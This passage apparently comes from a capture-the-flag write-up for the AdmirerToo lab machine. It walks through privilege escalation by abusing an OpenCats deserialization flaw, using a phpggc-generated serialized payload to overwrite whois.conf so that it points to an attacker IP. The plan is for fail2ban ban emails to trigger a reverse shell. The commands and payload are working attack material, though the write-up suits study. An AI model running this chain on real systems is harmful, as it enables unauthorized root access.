 Things to note here is that the file was created by `devel` user and not `root`. Devel does not have any shell access (see `/etc/passwd` below) so it is probably useless to get a shell as him:
```bash
jennifer@admirertoo:/dev/shm$ grep 'devel' /etc/passwd
devel:x:1003:1003::/home/devel:/sbin/nologin
```
Dead end.

### Fail2ban exploit
Going back to Fail2Ban exploit, we can get code execution if we edit the `/etc/hosts` file and point to our own IP address. However, we don’t have permission to edit the hosts file, only root can edit it.
But, we can put a whois configuration file in `/usr/local/etc` directory and when we execute whois command it takes configuration file for processing.
This is the default configuration of jail (fail2ban), if any IP is banned then it sends an email to specified address.
```bash
jennifer@admirertoo:/dev/shm$ cat /etc/fail2ban/jail.local  
[DEFAULT]  
ignoreip = 127.0.0.1  
bantime = 60s  
destemail = root@admirertoo.htb  
sender = fail2ban@admirertoo.htb  
sendername = Fail2ban  
mta = mail  
action = %(action_mwl)s
```

The configuration file below says that Fail2Ban is enabled in SSH:
```bash
jennifer@admirertoo:/dev/shm$ cat /etc/fail2ban/jail.d/defaults-debian.conf  
[sshd]  
enabled = true
```

### Root exploit chain
We will use OpenCats deserialization vulnerability to write a malicious `whois` configuration file that is pointing to our machine. Then we create another file that will send us a reverse shell and it is triggered whenever Fail2Ban sends an email - in another words, when someone tries to SSH login with wrong credentials multiple times.

Step 1 - Create a configuration file:
```bash
$ cat caue.conf  
}]|. [10.10.14.4]
```

Step 2 - Serialize the configuration file to overwrite `/usr/local/etc/whois.conf`:
```bash
$ phpggc -u --fast-destruct Guzzle/FW1 /usr/local/etc/whois.conf /home/caue/htb/admirertoo/caue.conf
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A18%3A%22%7D%5D%7C.+%5B10.10.14.4%5D%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A25%3A%22%2Fusr%2Flocal%2Fetc%2Fwhois.conf%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7Di%3A7%3Bi%3A7%3B%7D
```
